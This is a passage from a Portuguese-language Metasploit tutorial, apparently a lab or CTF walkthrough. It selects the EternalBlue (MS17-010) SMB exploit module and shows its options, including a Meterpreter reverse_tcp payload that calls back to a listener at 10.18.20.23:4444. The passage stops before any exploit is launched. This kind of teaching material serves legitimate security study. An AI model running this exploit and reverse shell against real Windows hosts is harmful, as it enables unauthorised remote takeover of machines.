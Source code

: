 ```bash
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/smb/smb_doublepulsar_rce

```
O comando `search` nos retorna 5 módulos, sendo que o que nos interessa é o `exploit/windows/smb/ms17_010_eternalblue`, então vamos selecionar ele utilizando o comando `use exploit/windows/smb/ms17_010_eternalblue`.

### **<a id="6">3. Show options and set the one required value.</a>**

Agora que já temos o exploit selecionado, vamos verificar as opções disponíveis para ele utilizando o comando `show options`.

```bash

msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                            yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows
                                              7, Windows Embedded Standard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7,
                                             Windows Embedded Standard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Em
                                             bedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.18.20.23      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.

```
